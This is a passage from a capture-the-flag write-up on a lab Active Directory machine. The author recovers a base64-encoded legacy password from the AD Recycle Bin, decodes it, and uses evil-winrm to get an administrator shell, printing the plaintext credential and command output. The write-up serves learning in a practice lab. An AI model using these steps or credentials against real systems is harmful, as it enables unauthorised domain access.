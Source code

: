 ```
Global Group memberships     *Domain Users
The command completed successfully.
```


[AD Recycle Bin](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#ad-recycle-bin) took my interest. I quickly run simple PS script to see all deleted objects from hacktricks page. 

![](/images/cascade/adminpass.png)

`cascadeLagacyPwd` look interesting right? I decoded base64 string and tries to log as administrator...

```
$ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
$ ~/tools/evil-winrm/evil-winrm.rb -u administrator -p baCT3r1aN00dles -i 10.10.10.182

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
CASC-DC1
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Another boxed pwned :) Thank you for reading 



                